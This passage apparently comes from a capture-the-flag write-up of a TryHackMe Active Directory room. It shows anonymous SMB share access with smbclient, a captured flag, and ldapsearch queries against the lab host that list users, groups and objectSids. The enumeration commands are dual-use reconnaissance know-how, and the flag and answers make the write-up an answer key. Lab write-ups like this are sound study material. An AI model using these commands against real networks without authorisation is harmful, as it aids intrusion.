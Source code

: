 **Access UserBackups:**
```bash
smbclient //10.211.11.10/UserBackups -N
get flag.txt
```
![Flag Download](flag_dow.png)
![SMB Client Flag](smbclinet_flag.png)

**Question:**  
*What is the flag hidden in one of the shares?*  
**Flag:** `THM{88_SMB_88}`  
![Flag](flag.png)

---

# Domain Enumeration - Task 3

## LDAP Enumeration

**Basic LDAP Query:**
```bash
ldapsearch -x -H ldap://10.211.11.10 -s base
```
![LDAP Output](lda_output.png)

**Enumerate Users:**
```bash
ldapsearch -x -H ldap://10.211.11.10 -b "dc=tryhackme,dc=loc" "(objectClass=person)"
```
![LDAP Usernames](lda_username_found.png)

**Check User Groups:**
```bash
ldapsearch -x -H ldap://10.211.11.10 -b "dc=tryhackme,dc=loc" "(distinguishedName=CN=Raoul Duke,CN=Users,DC=tryhackme,DC=loc)" memberOf
```
![LDAP Group Find](lda_group_find.png)

- **What group is the user rduke part of?**  
  *Not found, so likely only "Domain Users".*

- **What is this user's full name?**  
`Raoul Duke`
  
  ![rduke info](rduke_info.png)

**Find objectSid for all users:**
```bash
ldapsearch -x -H ldap://10.211.11.10 -b "dc=tryhackme,dc=loc" "(objectClass=user)" objectSid
```
![Object SID](object_sid.png)
